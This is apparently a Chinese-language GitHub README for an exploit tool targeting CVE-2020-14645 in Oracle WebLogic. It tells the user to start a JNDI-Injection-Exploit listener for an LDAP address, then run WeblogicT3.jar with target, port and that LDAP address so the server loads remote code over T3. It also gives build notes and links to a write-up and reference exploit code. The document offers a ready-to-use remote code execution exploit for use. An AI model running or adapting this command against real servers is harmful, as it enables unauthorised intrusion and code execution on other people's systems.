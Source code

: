 # CVE-2020-14645

## 使用方法

首先使用[NDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/README-CN.md)监听，并生成一个ldap地址。


`java -jar WeblogicT3.jar -Target 127.0.0.1 -Port [7001] -RMI ldap://127.0.0.1:1389/dozvtq [--SSL]`

-Tatget 和-RMI必填，https可使用--SSL参数，-Port默认7001。

自行编译需要添加coherence.jar和wlfullclient.jar
### 漏洞参考：
https://mp.weixin.qq.com/s?__biz=MzUyMDEyNTkwNA==&mid=2247484377&idx=1&sn=01d62d175127099275a243ab5fe02bc3&chksm=f9ee6f66ce99e670dbb6da2a3648ea5f6a91fa503441dccd903f44e76883019890d8a9701a29&scene=158#rd
### 代码参考：
https://github.com/Y4er/CVE-2020-2883